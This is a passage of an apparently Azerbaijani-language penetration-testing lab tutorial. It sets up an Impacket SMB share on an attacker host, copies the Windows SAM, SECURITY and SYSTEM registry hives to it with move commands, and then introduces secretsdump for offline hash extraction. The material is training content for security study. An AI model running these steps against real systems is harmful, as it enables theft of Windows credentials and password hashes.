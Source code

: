 Paylaşımı yaratmaq üçün sadəcə **`smbserver.py -smb2support`** əmrini işə salırıq, paylaşım üçün bir ad (məsələn, `CompData`) təyin edirik və hive kopyalarının saxlanılacağı hücumçu hostumuzdakı yerli qovluğu göstəririk (məsələn, `/home/ltnbob/Documents`). `-smb2support` bayrağı SMB-nin daha yeni versiyaları ilə uyğunluğu təmin edir. Bu bayrağı daxil etməsək, SMBv1-in **çoxsaylı ciddi zəifliklərə** və ictimaiyyətə açıq *exploit*-lərə görə defolt olaraq söndürüldüyü üçün daha yeni Windows sistemləri paylaşmaya qoşula bilməz.

```bash
nijatmansimov@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Konfiqurasiya faylı parse edildi
[*] UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0 üçün geri zəng əlavə edildi
[*] UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 üçün geri zəng əlavə edildi
[*] Konfiqurasiya faylı parse edildi
[*] Konfiqurasiya faylı parse edildi
[*] Konfiqurasiya faylı parse edildi
```

Paylaşım hücumçu hostumuzda işə düşdükdən sonra, hive kopyalarını paylaşım sahəsinə köçürmək üçün Windows hədəfindəki **`move`** əmrindən istifadə edə bilərik.

### Hive Kopyalarını Paylaşıma Köçürmək

```
C:\> move sam.save \\10.10.15.16\CompData
        1 fayl köçürüldü.

C:\> move security.save \\10.10.15.16\CompData
        1 fayl köçürüldü.

C:\> move system.save \\10.10.15.16\CompData
        1 fayl köçürüldü.
```

Daha sonra hücumçu hostumuzda paylaşılan qovluğa keçərək və faylları siyahılamaq üçün **`ls`** əmrini istifadə edərək hive kopyalarımızın uğurla köçürüldüyünü təsdiqləyə bilərik.

```bash
nijatmansimov@htb[/htb]$ ls
sam.save  security.save  system.save
```

### `secretsdump` ilə Heşləri Çıxarmaq (*Dumping*)

Heşləri oflayn çıxarmaq üçün xüsusilə faydalı bir alət Impacket-in **`secretsdump`**-ıdır. Impacket əksər müasir *penetration testing* (sızma testi) distributivlərinə daxildir. Linux əsaslı sistemdə quraşdırılıb-quraşdırılmadığını yoxlamaq üçün **`locate`** əmrini istifadə edə bilərik:

```bash
nijatmansimov@htb[/htb]$ locate secretsdump 
```

`secretsdump` istifadəsi sadədir. Biz sadəcə skripti Python ilə işə salırıq və hədəf hostdan əldə etdiyimiz hər bir *hive* faylını göstəririk.
